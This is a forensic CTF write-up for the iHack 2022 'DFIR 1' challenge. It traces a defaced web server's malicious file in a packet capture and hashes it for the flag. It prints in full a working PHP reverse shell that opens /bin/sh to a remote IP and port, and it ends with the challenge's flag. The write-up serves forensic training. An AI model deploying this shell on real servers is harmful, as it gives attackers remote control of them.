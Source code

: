 # DFIR 1

* **Challenge Description:** iHack's web server have been defaced. Provide us the MD5 hash of the malicious file in the web server from this PCAP.
* **Flag Format:** `ihack{MD5}`

## Solution

We can first analyze the PCAP file in `Wireshark` by doing `Follow TCP Streams`. However, due to the overwhelmingly amount of files, using `NetworkMiner` would be a better option.

![Screenshot](./Screenshot.png)

A PHP reverse shell was found on stream `TCP 61440`. 

```php
<?php
// PHP Reverse Shell
// Copyright (C) 2020 e@hotmail.com
// AbuDayeh
set_time_limit (0);
$VERSION 	= "1.0";
$ip 		= '192.168.74.143'; 	// Change Your {IP}
$port 		= 4444;       	// Change Your {Port}
$chunk_size 	= 1400;
$write_a 	= null;
$error_a 	= null;
$shell 		= 'echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d; /bin/sh -i';
$daemon 	= 0;
$debug 		= 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
?>
```

This can be verified by viewing the base64 encoded payload embedded in the PHP file.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ echo "V2VsY29tZSB0byBpaGFjayAyMDIyLiBtZDUgdGhpcyB3ZWJzaGVsbA==" | base64 -d
Welcome to ihack 2022. md5 this webshell
```

Retrieve the MD5 hash of the PHP web shell.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ md5sum /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
8472a0454391a40792173708866514ef  /home/kali/Desktop/NetworkMiner_2-7-3/AssembledFiles/192.168.74.1/TCP-61440/avatar-1606914__480.php
```

**Flag:** `ihack{8472a0454391a40792173708866514ef}`
